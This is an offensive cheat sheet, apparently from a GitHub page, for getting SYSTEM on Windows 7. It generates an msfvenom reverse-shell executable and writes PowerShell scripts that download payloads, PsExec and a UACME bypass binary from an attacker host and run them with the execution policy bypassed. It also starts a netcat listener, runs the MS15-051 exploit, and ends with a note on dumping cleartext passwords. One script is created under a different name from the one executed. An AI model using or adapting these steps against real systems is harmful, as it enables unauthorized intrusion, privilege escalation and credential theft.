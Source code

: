 ```
msfvenom –p windows/shell_reverse_tcp LHOST=192.168.56.102 –f exe > danger.exe

#show account settings
net user <login>

# download psexec to kali
https://technet.microsoft.com/en-us/sysinternals/bb897553.aspx

# upload psexec.exe file onto the victim machine with powershell script
echo $client = New-Object System.Net.WebClient > script.ps1
echo $targetlocation = "http://192.168.56.102/PsExec.exe" >> script.ps1
echo $client.DownloadFile($targetlocation,"psexec.exe") >> script.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script.ps1

# upload danger.exe file onto the victim machine with powershell script
echo $client = New-Object System.Net.WebClient > script2.ps1
echo $targetlocation = "http://192.168.56.102/danger.exe" >> script2.ps1
echo $client.DownloadFile($targetlocation,"danger.exe") >> script2.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script2.ps1

# UAC bypass from precompiled binaries:
https://github.com/hfiref0x/UACME

# upload https://github.com/hfiref0x/UACME/blob/master/Compiled/Akagi64.exe to victim pc with powershell
echo $client = New-Object System.Net.WebClient > script2.ps1
echo $targetlocation = "http://192.168.56.102/Akagi64.exe" >> script3.ps1
echo $client.DownloadFile($targetlocation,"Akagi64.exe") >> script3.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script3.ps1

# create listener on kali
nc -lvp 4444

# Use Akagi64 to run the danger.exe file with SYSTEM privileges
Akagi64.exe 1 C:\Users\User\Desktop\danger.exe

# create listener on kali
nc -lvp 4444

# The above step should give us a reverse shell with elevated privileges
# Use PsExec to run the danger.exe file with SYSTEM privileges
psexec.exe –i –d –accepteula –s danger.exe
```
### Get SYSTEM with Standard user reverse_shell on Win7

```
https://technet.microsoft.com/en-us/security/bulletin/dn602597.aspx #ms15-051
https://www.fireeye.com/blog/threat-research/2015/04/probable_apt28_useo.html
https://www.exploit-db.com/exploits/37049/

# check the list of patches applied on the target machine
# to get the list of Hotfixes installed, type in the following command.
wmic qfe get
wmic qfe | find "3057191"

# Upload compile exploit to victim machine and run it
https://github.com/hfiref0x/CVE-2015-1701/raw/master/Compiled/Taihou64.exe

# by default exploite exec cmd.exe with SYSTEM privileges, we need to change source code to run danger.exe
# https://github.com/hfiref0x/CVE-2015-1701 download it and navigate to the file "main.c"

# dump clear text password of the currently logged in user using wce.exe
```